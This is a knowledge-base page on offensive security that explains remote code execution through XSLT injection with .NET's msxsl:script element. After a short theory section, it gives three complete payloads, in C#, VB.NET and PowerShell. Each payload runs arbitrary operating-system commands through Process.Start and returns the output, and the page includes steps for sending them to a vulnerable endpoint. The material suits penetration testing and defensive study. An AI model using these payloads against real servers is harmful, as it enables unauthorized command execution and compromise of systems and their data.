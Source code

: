 ```yaml
---
title: Remote Code Execution with Native .NET Explained
description: Learn how to achieve remote code execution using .NET's msxsl:script
  in XSLT injection for web server environments.
keywords:
- Remote Code Execution
- .NET
- msxsl:script
- XSLT Injection
- C#
- VB.NET
- PowerShell
- Process.Start
- XML Parsing
- Cybersecurity
---
```


# Remote Code Execution with Native .NET

## Context

Remote Code Execution (RCE) through XSLT injection using native .NET capabilities is a potent technique used in offensive cybersecurity operations. This technique leverages the `msxsl:script` extension to embed C# or VB.NET code within XSLT stylesheets, which enables attackers to execute arbitrary commands on the target machine. Knowledge of XSLT processing, XML parsing, .NET framework, and prior experience with XSLT Injection is assumed for this process.

## Theory

### Native .NET XSLT Scripting Capabilities

The `msxsl:script` element is a powerful feature within .NET XSLT processors that facilitates the embedding and execution of inline .NET code, typically written in C# or VB.NET, directly within XSLT stylesheets. When a vulnerable application processes an XSLT input, it may inadvertently execute injected `msxsl:script` code, leading to arbitrary command execution.

### Execution Context and Trust Boundaries

When XSLT transformations occur within a web application, they often inherit the same permissions and execution context as the application itself. This includes the ability to execute commands on the operating system. An attacker can exploit this by injecting an `msxsl:script` block, triggering code execution, and retrieving output through the XSLT transformation process.

### Common Exploitation Patterns

- **System.Diagnostics.Process.Start**: Frequently used to invoke OS commands from within C#/VB.NET code by setting `ProcessStartInfo` parameters such as `FileName` and `Arguments`.
- **Assembly.Load or Reflection**: Advanced techniques to load arbitrary .NET assemblies and execute methods directly or via PowerShell scripts.

## Practice

### Remote Code Execution via `msxsl:script` (C#) Injection

- **Payload:**

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
                xmlns:msxsl="urn:schemas-microsoft-com:xslt"
                xmlns:user="urn:my-scripts" version="1.0">
  <msxsl:script language="C#" implements-prefix="user">
    public string Execute(string cmd) {
      System.Diagnostics.Process proc = new System.Diagnostics.Process();
      proc.StartInfo.FileName = "cmd.exe";
      proc.StartInfo.Arguments = "/c " + cmd;
      proc.StartInfo.UseShellExecute = false;
      proc.StartInfo.RedirectStandardOutput = true;
      proc.Start();
      string output = proc.StandardOutput.ReadToEnd();
      proc.WaitForExit();
      return output;
    }
  </msxsl:script>
  <xsl:template match="/">
    <xsl:value-of select="user:Execute('whoami')"/>
  </xsl:template>
</xsl:stylesheet>
```

- This payload injects C# code into an XSLT stylesheet, allowing OS command execution and output retrieval.

- **Execution:**
  - Submit this payload as the XSLT input to the vulnerable endpoint processing XSLT.

- **Expected Output:**

```
text block
Output will contain the result of the executed command (e.g., current user).
```

### Remote Code Execution via `msxsl:script` (VB.NET) Injection

- **Payload:**

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
                xmlns:msxsl="urn:schemas-microsoft-com:xslt"
                xmlns:user="urn:my-scripts" version="1.0">
  <msxsl:script language="VB" implements-prefix="user">
    Public Function Execute(cmd As String) As String
      Dim proc As New System.Diagnostics.Process()
      proc.StartInfo.FileName = "cmd.exe"
      proc.StartInfo.Arguments = "/c " & cmd
      proc.StartInfo.UseShellExecute = False
      proc.StartInfo.RedirectStandardOutput = True
      proc.Start()
      Dim output As String = proc.StandardOutput.ReadToEnd()
      proc.WaitForExit()
      Return output
    End Function
  </msxsl:script>
  <xsl:template match="/">
    <xsl:value-of select="user:Execute('whoami')"/>
  </xsl:template>
</xsl:stylesheet>
```

- This VB.NET variant accomplishes the same command execution in environments where C# support is unavailable.

- **Execution:**
  - Submit the payload to the vulnerable XSLT processing endpoint.

- **Expected Output:**

```
text block
Output will display command execution result.
```

### Remote Code Execution via PowerShell from XSLT

- **Payload:**

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
                xmlns:msxsl="urn:schemas-microsoft-com:xslt"
                xmlns:user="urn:my-scripts" version="1.0">
  <msxsl:script language="C#" implements-prefix="user">
    public string RunPS(string cmd) {
      System.Diagnostics.Process proc = new System.Diagnostics.Process();
      proc.StartInfo.FileName = "powershell.exe";
      proc.StartInfo.Arguments = "-Command \"" + cmd + "\"";
      proc.StartInfo.UseShellExecute = false;
      proc.StartInfo.RedirectStandardOutput = true;
      proc.Start();
      string output = proc.StandardOutput.ReadToEnd();
      proc.WaitForExit();
      return output;
    }
  </msxsl:script>
  <xsl:template match="/">
    <xsl:value-of select="user:RunPS('Get-ChildItem C:\\')"/>
  </xsl:template>
</xsl:stylesheet>
```

- This technique allows execution of arbitrary PowerShell commands, significantly enhancing the attacker's post-exploitation capabilities.

- **Execution:**
  - Send the payload to the vulnerable XSLT endpoint.

- **Expected Output:**

```
text block
Output will show PowerShell command results.
```

## Tools

- **Burp Suite**
- **curl**
- **Postman**